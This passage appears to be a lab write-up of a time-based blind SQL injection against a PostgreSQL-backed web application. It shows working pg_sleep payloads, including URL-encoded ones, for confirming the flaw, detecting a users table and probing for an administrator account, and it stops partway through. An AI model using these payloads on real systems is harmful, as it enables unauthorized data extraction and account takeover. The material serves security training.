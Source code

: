 
To confirm the vulnerability, compare the response times for true (`1=1`) and false (`1=2`) conditions:
```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
- **Encoded Payloads**:
  ```sql
  jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
  jIPoq0qYcS0Y2AmF'+||+(SELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END)--
  ```
- **Result**:
  - `1=1`: ~10,300 ms (indicating a delay, confirming vulnerability).

   ![image](https://github.com/user-attachments/assets/ef61b3f7-a5e7-4a11-8743-d3b214f66923)

  - `1=2`: No delay (near-instant response).
- **Conclusion**: The application is vulnerable to time-based SQL injection.

## Step 2: Check for Existence of `users` Table

### Objective
Confirm if a `users` table exists in the database.

### Payload
```sql
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users) --
```

![image](https://github.com/user-attachments/assets/3561fa1d-96a4-4fc9-800d-51ebbbded07d)

- **Description**: Attempts to select from the `users` table. If it exists, a 10-second delay is triggered.
- **Result**: ~20,307 ms (indicating the `users` table exists).

   

- **Conclusion**: The `users` table exists in the database.

## Step 3: Verify `username` Column and `administrator` User

### Objective
Check if the `username` column exists in the `users` table and if there is an `administrator` user.

### Payload
```sql
' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users) --
```
![image](https://github.com/user-attachments/assets/e7df4a35-0ab8-44df-bd5e-4819e60118d9)
